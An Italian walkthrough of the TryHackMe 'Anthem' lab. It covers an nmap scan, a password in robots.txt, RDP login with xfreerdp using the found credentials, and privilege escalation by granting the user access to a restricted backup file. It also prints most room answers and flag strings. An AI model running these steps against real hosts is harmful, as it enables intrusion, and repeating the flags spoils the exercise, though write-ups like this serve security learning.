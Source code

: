 
#tryhackmelabs #laboratorio 

https://tryhackme.com/r/room/anthem?ref=blog.tryhackme.com

Eseguiamo nmap e controlliamo quali porte sono aperte.
```
nmap -Pn -O -sV -v -p- 10.10.180.163
```
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Quale porta è per il server web?

```
80
```

Quale porta è per il servizio desktop remoto?

```
3389
```

Quale potrebbe essere una password in una delle pagine controllate dai web crawler?
```
http://10.10.180.163/robots.txt
```
```
UmbracoIsTheBest!
```

Quale CMS utilizza il sito web?
```
http://10.10.180.163/umbraco/#/login
```
```
Umbraco
```

Qual è il dominio del sito web?

```
Anthem.com
```

Come si chiama l'amministratore?  
```
http://10.10.180.163/archive/a-cheers-to-our-it-department/
```
fatto una ricerca su Google della poesia trovata e il primo risultato è stato un nome utente
```
Solomon Grundy
```

Possiamo trovare l'indirizzo email dell'amministratore?
visto che il formato email trovato per CV è JD@anthem.com proviamo
```
sg@anthem.com
```

Cos'è la bandiera 1?
```
view-source:http://10.10.180.163/archive/we-are-hiring/
```

```
THM{L0L_WH0_US3S_M3T4}
```

Cos'è la bandiera 2?
```
view-source:http://10.10.180.163/archive/a-cheers-to-our-it-department/
```

```
THM{G!T_G00D}
```

Cos'è la bandiera 3?
```
http://10.10.180.163/authors/jane-doe/
```
```
THM{L0L_WH0_D15}
```

Cos'è la bandiera 4?

```
view-source:http://10.10.180.163/archive/a-cheers-to-our-it-department/
```

```
THM{AN0TH3R_M3TA}
```

Scopriamo il nome utente e la password per accedere alla casella. (La casella non è su un dominio)

possiamo loggarci con
```
http://10.10.180.163/umbraco/#/login
```
```
sg@anthem.com
```
```
UmbracoIsTheBest!
```

Ottieni l'accesso iniziale alla macchina. Qual è il contenuto di user.txt?
```
xfreerdp /u:sg /p:UmbracoIsTheBest! /v:10.10.180.163
```
**oppure utilizziamo Remmina**
```
THM{N00T_NO0T}
```

Possiamo individuare la password di amministratore?

per l'escalation dei privilegi proviamo a guardare i file modificati di recente usando run(esegui)>recent
troviamo in Backup un file restore.txt senza permessi di lettura
entriamo in proprietà ed aggiungiamo utente SG nel gruppo con tutti i permessi abilitati
ora possiamo leggere il contenuto di restore.txt
```
ChangeMeBaby1MoreTime
```

Aumenta i tuoi privilegi a root, qual è il contenuto del file root.txt?

Andiamo in (quando ci richiede la password inseriamo ChangeMeBaby1MoreTime )
```
C:\Users\Administrator\Desktop
```
troviamo il file root.txt
```
THM{XXXXXXX}
```






